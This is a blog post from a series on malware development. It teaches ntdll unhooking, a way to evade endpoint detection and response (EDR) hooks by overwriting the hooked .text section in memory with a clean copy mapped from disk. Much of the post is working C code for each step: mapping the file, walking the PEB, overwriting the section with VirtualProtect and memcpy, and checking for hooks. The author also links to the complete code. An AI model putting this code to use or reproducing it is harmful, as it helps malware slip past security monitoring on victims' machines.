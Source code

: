```yaml
---
title: "EDR Evasion 101 - Pt 2: Ntdll Unhooking via Overwritte"
description: How to remove EDR hooks (byte patching hooking) in ntdll.
author: Oblivion
date: 2024-01-22 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: true
math: true
mermaid: true
---
```


Ntdll Unhooking is a technique that consists of replacing the syscall stub and thus bypassing it. There are several ways to unhook the dll, but in this case, replace the text section of the dll, which is where the functions are located by the unhooked ntdll on the disk. Below are the code functions and what each one does:

- GetTextUnhooked:  Function responsible for reading the ntdll from the disk, mapping it in memory and recovering its text section.
- GetTextHooked:  Function responsible for returning the ntdll base address of the current process by PEB , and then return the text section of the hooked ntdll.
- ReplaceNtdllText: Function responsible for replacing the hooked ntdll with the unhooked one.

# GetTextUnhooked

First we use CreateFileA to retrieve a file identifier from the disk, then we get its size with GetFileSize to later pass it as a parameter to CreateFileMappingA, with CreateFileMapping we retrieve an identifier from a mapper file and then with MapViewOfFile we will have the memory address of the mapped file.

```c
HANDLE hNtdll = CreateFileA( ntdllName, GENERIC_READ , FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
if (hNtdll == INVALID_HANDLE_VALUE) {
    printf( "[!] CreateFileA for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
    return FALSE;
}

DWORD ntdllSize = GetFileSize( hNtdll, NULL );

HANDLE hMapFile = CreateFileMappingA( hNtdll, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, ntdllSize, NULL );
if (hMapFile == NULL) {
    printf( "\t[!] CreateFileMapping for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}

LPVOID pNtdllImage = MapViewOfFile( hMapFile, FILE_MAP_READ, 0, 0, 0 );
if (pNtdllImage == NULL) {
    printf( "\t[!] MapViewOfFile for REMOTE ntdll failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}
```
Now as we have the address we can go to the important part which is getting the address of the text section and size of the text section, this is very simple, we will walk through the header arriving at the Optional Header where we find BaseOfCode and SizeOfCode.

```c
PVOID ptextRemote;
SIZE_T stextRemote;

PIMAGE_DOS_HEADER pImageDosHdr = (PIMAGE_DOS_HEADER)pNtdllImage;
if ( pImageDosHdr->e_magic != IMAGE_DOS_SIGNATURE ){
    printf( "\t[!] Invalid DOS Signature at unhooked ntdll\n" );
    goto _CLEANUP;
}

PIMAGE_NT_HEADERS pImageNtHdrs = (PIMAGE_NT_HEADERS)( (PBYTE)pNtdllImage + pImageDosHdr->e_lfanew );

PIMAGE_SECTION_HEADER pImageSectionHdr = (PIMAGE_SECTION_HEADER)( ( (PBYTE)pImageNtHdrs ) + sizeof(IMAGE_NT_HEADERS) );

ptextRemote = (PVOID)( pImageNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllImage );
stextRemote = pImageNtHdrs->OptionalHeader.SizeOfCode;

printf( "\t[+] REMOTE Ntdll Text base address: 0x%p\n", ptextRemote );
printf( "\t[+] REMOTE Ntdll Text size: %d\n\n", stextRemote );
```

# GetTextHooked

First we will fill in the PEB structure and then on the following line:

```c
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
```

we calculate the address of the loader data table entry (LDR) of the system DLL "ntdll.dll". The PEB contains a pointer to the list of modules loaded in the current process. We will follow the linked list of modules until we find the entry corresponding to ntdll.dll and then subtract an offset of 0x10 to get to the beginning of the DLL data structure.

Now on the next line:

```c
PVOID pNtdllHooked = pLdr->DllBase;
```

We get the base address of the DLL "ntdll.dll" and store it in a variable called "pNtdllHooked".

```c

#ifdef _WIN64
	PPEB pPEB = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPEB = (PPEB)__readfsdword(0x30);
#endif // _WIN64

PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

PVOID pNtdllHooked = pLdr->DllBase;
```

In sequence, the same thing is done in the previous function:

```c
PIMAGE_DOS_HEADER	pLocalDosHdr	= (PIMAGE_DOS_HEADER)pNtdllHooked;
if (pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
    return FALSE;

PIMAGE_NT_HEADERS 	pLocalNtHdrs	= (PIMAGE_NT_HEADERS)((PBYTE)pNtdllHooked + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE) 
    return FALSE;

PVOID	pLocalNtdllTxt	= (PVOID)(pLocalNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllHooked);
SIZE_T	sNtdllTxtSize	= pLocalNtHdrs->OptionalHeader.SizeOfCode;	
```

# ReplaceNtdllText

This part is the simplest, we just change the memory protection with VirtualProtect, we will copy the text section of the ntdll read from the unhooked disk and replace the one that is hooked in the current process and finally we return the memory protection as it was previously.

```c
if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
	printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
	return FALSE;
}

memcpy(pTextOriginalNtdll, pTextUnhookedNtdll, sTextOriginalNtdll);

if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, dwOldProtection, &dwOldProtection)) {
	printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
	return FALSE;
}
```

# Demonstration

Now I will use a simple injection to execute calc.bin and use a function to perform a check and verify if the NtProtectVirtualMemory function is hooked. The function is as follows:

```c
PVOID pSyscallAddress = GetProcAddress( GetModuleHandleA( "NTDLL.DLL" ), "NtProtectVirtualMemory" );

printf( "[#] %s [ 0x%p ] ---> %s \n", "NtProtectVirtualMemory", pSyscallAddress, ( *(ULONG*)pSyscallAddress != 0xb8d18b4c ) == TRUE ? "[ HOOKED ]" : "[ UNHOOKED ]" );
```

![img](../commons/ntdll_unhooking_overwrite/img1.webp)

You can find the complete code on my github, there I also have other ways to recover an unhooked dll, via web server and via knowdlls: [Github](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/ntdll_unhooking)
